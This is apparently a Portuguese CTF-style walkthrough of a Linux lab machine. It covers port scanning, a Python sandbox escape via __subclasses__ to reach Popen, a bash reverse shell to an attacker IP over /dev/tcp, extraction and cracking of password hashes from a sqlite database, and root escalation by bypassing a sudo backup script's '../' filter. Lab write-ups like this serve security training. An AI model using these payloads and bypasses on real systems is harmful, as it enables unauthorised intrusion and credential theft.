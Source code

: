 #Difficult : Easy #OS : Linux
***
## Port Scanning
```sh
nmap 10.10.11.62 -Pn -sV -sC -A -oN scann_tcp
```
![[Pasted image 20250513200209.png]]
Temos uma aplicação rodando em um servidor python(`gunicorn`) na porta `500`, podemos acessa-la e ver a aplicação que está rodando.
****
## Foothold - Sandbox Python
![[Pasted image 20250513200815.png]]

Pelo que parece, a aplicação é uma sandbox que aceita comandos `python`, mas não permite alguns comandos, como `os` ou `import`.

Após uma breve pesquisa, achei um [post da Boiatech](https://hacktricks.boitatech.com.br/misc/basic-python/bypass-python-sandboxes) sobre técnicas de `bypass` de sandboxes, uma delas é utilizando `subclasses`.
![[Pasted image 20250513202503.png]]

Primeiro enumerei quantas subclasses há nessa classe.
![[Pasted image 20250513203115.png]]

Como sei quantas subclasses existem, posso listar todas para achar algum comando útil, como o `popen`, que inicia um novo processo e nos permite interagir ele, controlando o fluxo de entrada e saída.
```python
for i in range(0,722):
    string = str("".__class__.__mro__[1].__subclasses__()[i])
    esc = "Po"+"pen"
    if esc in string:
        print(str(i) + ' - '+ string)
    else:
        print('')
```
![[Pasted image 20250513205028.png]]

Encontrei o `popen` na posição `317`, agora posso utiliza-lo para obter uma `revshell`. Mas primeiro devemos escutar uma porta para receber a shell.
```sh
nc -nvlp 4545
```

Agora podemos executar a `revshell` na aplicação.
```python
shell = ''.__class__.__mro__[1].__subclasses__()[317]
shell("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4545 0>&1'", shell=True)
```

Após a conexão listo a pasta `home` do usuário para ver se a flag está aqui.
```sh
ls ~/
```
![[Pasted image 20250514163938.png]]
***
## Lateral Movement
Após entrar na máquina vejo que estou em uma pasta `app`, onde fica localizado os arquivos da aplicação. Então emito o comando `ls -R` para mapear a estrutura da pasta.
```sh
ls -R
```
![[Pasted image 20250514162651.png]]

Localizei um arquivo `database.db` que costuma ser um banco de dados `sqlite3`. Então enumerei esse arquivo, e descobri algumas credenciais.
```sh
sqlite3 ./instance/database.db ".tables"
sqlite3 ./instance/database.db "select * from user"
```
![[Pasted image 20250514162938.png]]

Como existe 2 usuários no banco de dados, verifiquei quais usuários podem logar no sistema.
```sh
cat /etc/passwd | grep /bin/bash
```
![[Pasted image 20250514163321.png]]

Apenas o usuário `martin` pode logar no sistema, então verifiquei se sua hash já foi quebrada em algum banco conhecido no `crackstation`
![[Pasted image 20250514163156.png]]

Senha quebrada, agora podemos fazer login.
```sh
ssh martin@10.10.11.62
```
![[Pasted image 20250514163747.png]]
***
## PRIV ESC
Primeira enumeração a fazer é ver nossos privilégios com `sudo -l`.
```sh
sudo -l
```
![[Pasted image 20250514171113.png]]

#### Code analysis
Podemos ver o conteúdo do script para ver o que ele faz.
```sh
cat /usr/bin/backy.sh
```

```sh
!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

Pelo o que eu entendi, ele recebe um arquivo `task.json`, verifica se o `path` passado começa com `/var/` ou `/home/`, e também usa uma `regex` que retira qualquer ocorrência de `../`.

Na pasta `backup` há um arquivo `task.json` que aparentemente é o que foi usado. Podemos ver seu conteúdo também.
```sh
cat ./backups/task.json

 "destination": "/home/martin/backups/",
 "multiprocessing": true,
 "verbose_log": false,
 "directories_to_archive": [
  "/home/app-production/app"
 ],

 "exclude": [
  ".*"
 ]
}
```

Podemos modifica-lo para pegar o que tem na pasta `/root`.
```sh
 "destination": "/home/martin/",
 "multiprocessing": true,
 "verbose_log": false,
 "directories_to_archive": [
  "/var/....//root/"
 ]
}
```
#### Root flag
Agora podemos executar o comando com a nossa `task.json`.
```sh
sudo /usr/bin/backy.sh ./task.json
ls
tar -xvjf code_var_.._root_2025_May.tar.bz2
```
![[Pasted image 20250514182351.png]]

Agora que descomprimimos a `root`, podemos olhar o que há dentro.
```sh
ls ./root
```
![[Pasted image 20250514182457.png]]
***

![[Pasted image 20250514182647.png]]